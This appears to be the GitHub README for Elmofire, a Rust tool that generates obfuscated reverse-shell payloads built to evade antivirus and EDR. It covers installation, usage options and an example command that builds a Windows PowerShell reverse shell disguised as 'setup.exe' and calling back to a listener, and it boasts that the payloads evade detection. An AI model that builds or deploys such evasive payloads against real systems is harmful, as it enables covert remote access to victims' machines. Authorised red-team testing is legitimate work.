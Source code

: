 <h1>🔥Elmofire🔥</h1>

<h3>Version:</h3>
<ul>0.1.0</ul>

<h3>Description:</h3>
<p>Elmofire has been developed to keep up with the demand of Security Best Practices and Red Team exercises. During an assessment, typically Penetration Testers/Red Team Operators are tasked with bypassing current protections in place within corporate infrastuctures. As most Anti-Virus, likewise Endpoint Detection and Response (EDR) software solutions detect known malware samples based on heuristics and forensic fingerprinting, the goal of Elmofire is to bypass these detections. While not full-proof against every form of EDR on the planet 🌎, Elmofire does an excellent job at generating a randomized and obfuscated payload in an attempt to evade these malware detection services. Currently bypassing all known Anti-Virus solutions on VirusTotal, (Feel free to generate a payload and see for yourself. 😉), the payloads generated by Elmofire are very likely to evade most protection software utilized by organizations throughout the Cyber Security industry.</p>
<h3>Dependencies:</h3>
<ul><code><a href="https://www.rust-lang.org/">rust - version 1.67.0</a></code></ul>
<ul><code><a href="https://github.com/cross-rs/cross">cross - version 0.2.5</a></code></ul>
<ul><code><a href="https://www.docker.com/">docker - version 20.10.12</a></code></ul>
<h4>NOTE:</h4>
<ul>On Linux, Docker runs in the context of the <code>root</code> user by default. To use <code>cross</code>, which uses Docker to compile Rust binaries, it is advised to add your current user to the <code>docker</code> group. E.g. <code>sudo usermod -aG docker user</code> After executing the above command, run <code>newgrp docker</code> in the context of your <code>user</code> or simply logout and log back in.</ul>

<h4>Developed and tested on:</h4>
<ul><code>Pop!_OS 22.04 (Ubuntu)</code></ul>
<ul><code>Kali Linux 2022.4 (Debian)</code></ul>

<h3>Installation:</h3>
<p>After following the instructions to install <code>rust</code>, <code>docker</code>, and <code>cross</code>, you can compile and build Elmofire using the <code>cargo build</code> command from inside the Elmofire source code folder.</p>
<p>E.g.</p>
<p><code>git clone https://github.com/Elmofire/ef</code></p>
<p><code>cd ef/</code></p>
<p><code>cargo build</code></p>
<p>Once successfully compiled without errors, the <code>ef</code> binary file will be located within the <code>target/debug</code> path within the Elmofire source code directory. Feel free to relocate this binary to your most convienent file path configured in your <code>PATH</code> environment, or simply create an <code>alias</code> to point to the current location of the <code>ef</code> binary.</p>
<h3>Usage:</h3>
<pre>🔥ElmoFire🔥 0.1.0
Author: M4x 5yn74x
Description: Yet another obfuscated payload generator written in Rust

USAGE:
./ef -p &lt;OS-Option&gt; -a &lt;Architecture&gt; -l &lt;Listener&gt; -s &lt;Shell-Type&gt; -o &lt;Output filename&gt;

OPTIONS:
    -a &lt;Architecture&gt;        Architecture: x86_64, i586, i686, arm, armv5te, armv7, aarch64, mips,
                             mipsel, mips64, mips64el
    -h, --help               Print help information
    -l &lt;Listener&gt;            Listening host: &lt;listening ip:port&gt;
    -o &lt;Output&gt;              Output filename: &lt;anything goes&gt;
    -p &lt;OS-Option&gt;           Operating System: windows, linux, darwin, ios, android, solaris,
                                    sun-solaris, freebsd, netbsd, illumos
    -s &lt;Shell-Type&gt;          Shell type: cmd, powershell, /bin/bash, /bin/sh, /system/bin/sh,
                                    /bin/busybox, /usr/bin/zsh
    -V, --version            Print version information
</pre>
<p>E.g.</p>
<code>./ef -a x86_64 -l 10.0.0.10:1337 -o setup.exe -p windows -s powershell</code>

<h3>Disclaimer:</h3>
<p>This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. We, hereby relinquish ALL responsiblity for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as discribed. Please use Elmofire responsibly.</p>